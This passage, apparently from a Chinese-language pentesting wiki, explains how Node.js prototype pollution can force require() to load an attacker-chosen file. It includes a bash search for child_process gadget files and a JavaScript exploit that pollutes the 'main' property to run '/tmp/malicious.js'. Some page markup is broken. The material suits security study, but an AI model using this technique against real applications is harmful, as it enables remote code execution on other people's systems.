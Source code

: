 ```bash
find / -name "*.js" -type f -exec grep -l "child_process" {} \; 2>/dev/null | while read file_path; do
grep --with-filename -nE "^[a-zA-Z].*(exec\(|execFile\(|fork\(|spawn\(|execFileSync\(|execSync\(|spawnSync\()" "$file_path" | grep -v "require(" | grep -v "function " | grep -v "util.deprecate" | sed -E 's/.{255,}.*//'
done
# Note that this way of finding child_process executions just importing might not find valid scripts as functions called in the root containing child_process calls won't be found.
```

```html

</div>

<details><summary>先前脚本发现的有趣文件</summary></details>

### 通过原型污染设置要求文件路径

<div data-gb-custom-block data-tag="hint" data-style='warning'>

**先前的技术要求**用户**控制要求的文件路径**。但这并不总是正确的。

</div>

然而，如果代码在原型污染后执行要求，即使**你无法控制要求的路径**，你**可以滥用原型污染来强制执行不同的路径**。因此，即使代码行类似于 `require("./a_file.js")` 或 `require("bytes")`，它将**要求你污染的包**。

因此，如果在原型污染后执行了要求且没有生成函数，这是攻击方式：

* 找到系统中的一个**`.js`文件**，当**要求**时将**使用`child_process`执行某些内容**
* 如果你可以上传文件到攻击的平台，你可以上传一个类似的文件
* 污染路径以**强制要求加载`.js`文件**，该文件将使用`child_process`执行某些内容
* **污染环境/cmdline**以在调用`child_process`执行函数时执行任意代码（参见最初的技术）

#### 绝对要求

如果执行的要求是**绝对的**（`require("bytes")`）且**包中不包含`package.json`文件中的主要内容**，你可以**污染`main`属性**并使**要求执行不同的文件**。

<div data-gb-custom-block data-tag="tabs"></div>

<div data-gb-custom-block data-tag="tab" data-title='exploit'>

<div data-gb-custom-block data-tag="code" data-overflow='wrap'>

```

```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Install package bytes (it doesn't have a main in package.json)
// npm install bytes

// Manual Pollution
b = {}
b.__proto__.main = "/tmp/malicious.js"

// Trigger gadget
var proc = require('bytes');
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist


```